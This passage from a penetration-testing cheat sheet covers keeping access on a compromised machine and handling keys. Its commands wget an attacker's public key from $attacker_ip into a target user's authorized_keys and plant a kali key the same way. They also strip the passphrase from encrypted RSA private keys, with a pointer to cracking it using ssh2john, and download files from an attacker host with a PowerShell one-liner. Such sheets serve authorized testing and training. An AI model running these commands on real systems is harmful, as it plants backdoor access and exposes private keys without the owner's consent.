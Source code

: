 target machine:

```bash
mkdir /home/<target_user>/.ssh
wget http://$attacker_ip/id_rsa.pub -O /home/<target_user>/.ssh/authorized_keys
```

1. SSH to the target

```bash
ssh -o StrictHostKeyChecking=no <target_user>@$ip
```

### Decrypt RSA Keys

Example/sample of encrypted RSA keys

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
...
-----END RSA PRIVATE KEY-----
```

Obtain public key (if necessary use ssh2john to crack the password for the passphrase)

```bash
openssl rsa -in encrypted.key -pubout > key.pub
```

Obtain private key (if necessary use ssh2john to crack the password for the passphrase)

```bash
openssl rsa -in encrypted.key -out id_rsa
```

## Shell upgrade using SSH (2)

1. On the target.

```bash
mkdir /home/user/.ssh
chmod 0700 /home/user/.ssh
echo "ssh-rsa AAAAB3...SNj7NAs = kali@kali" > /home/user/.ssh/authorized_keys
chmod 0600 /home/user/.ssh/authorized_keys
```

1. On kali.

```bash
ssh user@ip
```

### Powershell download file

```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile("http://$yourip/$file", "C:\Users\$destfile")
```
